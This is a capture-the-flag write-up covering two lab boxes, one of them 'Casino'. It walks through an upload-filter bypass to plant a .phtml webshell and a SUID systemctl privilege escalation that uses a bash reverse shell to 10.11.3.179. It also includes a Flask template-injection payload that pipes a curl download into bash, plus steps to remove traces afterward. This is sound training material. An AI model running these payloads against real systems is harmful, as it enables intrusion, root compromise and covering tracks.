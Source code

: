 On `/internal` there is a upload functionality. After attempting to upload a `.php` file it says that it's not an allowed Extension. We can fuzz this upload functionality to check for any other types of php upload we can upload here.

Using burps intruder we can change the extension of the file we upload and see if there is any file it allows. Through this, we discover that the `.phtml` file type is allowed and can upload a webshell using this extension and get a shell on the box as www-data.

### PRIV ESC
After running linpeas.sh on the box, it shows a vulnerable SUID program `systemctl`.
```
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/bin/systemctl
```
By heading to [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/) will show us how to exploit this.

First create a service that will run a reverse shell script when loaded:
```
[Service]
Type=oneshot
ExecStart=/dev/shm/.pwn/reverse.sh
[Install]
WantedBy=multi-user.target
```
Here is the `reverse.sh` that will be run from the service.
```
#!/bin/bash

bash -i >& /dev/tcp/10.11.3.179/4444 0>&1
```
Now we can run the commands:
```
systemctl link /dev/shm/.pwn/exploit.service
systemctl enable --now /dev/shm/.pwn/exploit.service
```
And on our listener we will have a shell as root.

Now to clean up, we can remove the linked file at `/etc/systemd/system/multi-user.target.wants/exploit.service`, the webshell at `/var/www/html/internal/uploads/webshell.phtml` and do `rm -rf /dev/shm/.pwn` to remove anything else we uploaded.



## CASINO

Casino was a new box that came out on cyberseclabs. Since it was new I thought I would give it a try. It ended up being quite a fun box since I had never dealt with flask injections prior to this.

The `/search` page of this application is vulnerable to injection and with this we can get complete RCE through the web app to spawn a shell through the `search` paramter. 

```
search= config.__class__.__init__.__globals__['os'].popen('curl 10.10.0.64/shell.sh|bash').read()
```
Between the start and end of the payload we will need two curly braces, it does not render on the page when I add it in.
